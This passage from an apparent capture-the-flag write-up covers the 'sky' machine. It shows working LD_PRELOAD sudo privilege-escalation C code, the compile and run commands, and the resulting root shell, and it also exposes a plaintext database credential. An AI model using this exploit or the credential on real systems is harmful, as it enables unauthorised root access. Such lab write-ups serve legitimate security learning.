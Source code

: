 Digging the database, i found creds for user `webdeveloper:BahamasChapp123!@#`. So lets login as them and see what we find.

```bash
www-data@sky:/home/webdeveloper$ su webdeveloper
Password: BahamasChapp123!@#
webdeveloper@sky:~$ id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),24(cdrom),27(sudo),30(dip),46(plugdev)
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

Ok, so this user can run `/usr/bin/sky_backup_utility` without any password. You can also see `LD_PRELOAD` environment variable has been set. (I once did a ctf where this variable was set and i compiled the following c code from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ld_preload-and-nopasswd) and run it as follows:)

```bash
webdeveloper@sky:~$ vi root.c
webdeveloper@sky:~$ cat root.c
cat root.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
webdeveloper@sky:~$ gcc -fPIC -shared -o shell.so root.c -nostartfiles
webdeveloper@sky:~$ ls -la
ls -la
total 60
drwxr-xr-x 4 webdeveloper webdeveloper  4096 Dec  9 08:32 .
drwxr-xr-x 3 root         root          4096 May 25  2021 ..
lrwxrwxrwx 1 webdeveloper webdeveloper     9 May 25  2021 .bash_history -> /dev/null
-rw-r--r-- 1 webdeveloper webdeveloper   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 webdeveloper webdeveloper  3771 Feb 25  2020 .bashrc
drwx------ 2 webdeveloper webdeveloper  4096 May 25  2021 .cache
drwxrwxr-x 3 webdeveloper webdeveloper  4096 May 25  2021 .local
-rw------- 1 webdeveloper webdeveloper    51 Oct  8 10:59 .mysql_history
-rw-r--r-- 1 webdeveloper webdeveloper   807 Feb 25  2020 .profile
-rw-rw-r-- 1 webdeveloper webdeveloper   168 Dec  9 08:31 root.c
-rwxrwxr-x 1 webdeveloper webdeveloper 14760 Dec  9 08:32 shell.so
-rw-r--r-- 1 webdeveloper webdeveloper     0 Oct  7 17:53 .sudo_as_admin_successful
-rw-r--r-- 1 webdeveloper webdeveloper    33 May 25  2021 user.txt
-rw------- 1 webdeveloper webdeveloper   932 Dec  9 08:31 .viminfo
webdeveloper@sky:~$ sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# wc root.txt
 1  1 33 root.txt
```
